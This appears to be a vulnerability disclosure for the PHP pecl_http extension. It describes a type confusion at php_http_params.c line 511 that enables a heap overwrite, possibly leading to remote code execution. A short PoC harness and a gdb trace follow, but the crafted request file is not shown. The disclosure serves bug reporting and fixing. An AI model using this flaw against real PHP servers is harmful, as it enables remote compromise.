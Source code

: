 In line 511 `zend_hash_index_update()` is called with ptr used as an array
(`Z_ARRVAL_P(ptr)`) without actually checking its type. Thus it was possible
to call `zend_hash_index_update()` on a `zend_string` instead which obviously
leads to memory corruption issues.

The sample request provided in this report uses this type confusion
vulnerability to trigger an arbitrary heap overwrite. The actual overwrite
occurs in `_zend_hash_index_add_or_update_i()`: 

```c
static zend_always_inline zval *_zend_hash_index_add_or_update_i(HashTable *ht, zend_ulong h, zval *pData, uint32_t flag ZEND_FILE_LINE_DC)
{
/*[...]*/
add_to_hash:
/*[...]*/
    p = ht->arData + idx;
    p->h = h;						// <- heap overflow
    p->key = NULL;					// <- heap overflow
/*[...]*/
```

Because of the invalid pointer provided as HashTable `ht->arData` points
to an unexpected memory location on the heap and not to the list of Buckets
of an ordinary `HashTable`. So the two following assignments allow to write
arbitrary values (`hkey.h` and `NULL`) on the heap.
As it turned out `hkey.h` can be controlled with request data received from
the network.  
The attached proof of concept demonstrates that this flaw very likely allows
for remote code execution.

This vulnerability was found using `afl-fuzz`/`afl-utils`.

# PoC

See the attached patch for the sample request in `bug73055.bin`.

```
$ cat http_querystring.php
/*
 * http_querystring.php
 */
<?php
    $qs = new http\QueryString(file_get_contents("bug73055.bin"));
?>
$ ./configure --enable-raphf --enable-propro --with-http && make
$ gdb ./sapi/cli/php
gdb> b php_http_params.c:511
gdb> r http_querystring.php
    Breakpoint 1, merge_param (zdata=0x7fffffff9cf0, current_args=0x7fffffff9dd8, current_param=0x7fffffff9de0,
    params=<optimized out>) at php_http_params.c:511
    511				ptr = zend_hash_index_update(Z_ARRVAL_P(ptr), hkey.h, test_ptr);
gdb> p ptr.u1.type_info
    $1 = 6                      // <-- IS_STRING, incorrect type!
gdb> b zend_hash.c:811
gdb> c
    Breakpoint 2, _zend_hash_index_add_or_update_i (flag=1, pData=0x7ffff425c6a0, h=16706, ht=0xf53dc0) at
    zend_hash.c:811
    811		p->h = h;						// <- heap overflow
gdb> p &p->h
    $2 = (zend_ulong *) 0x1091f40
gdb> x/8gx 0x1091f20                    // heap before overflow
    0x1091f20:	0x000000006c72755c	0x0000000000000021
    0x1091f30:	0x00007ffff5addb48	0x0000000001092960
```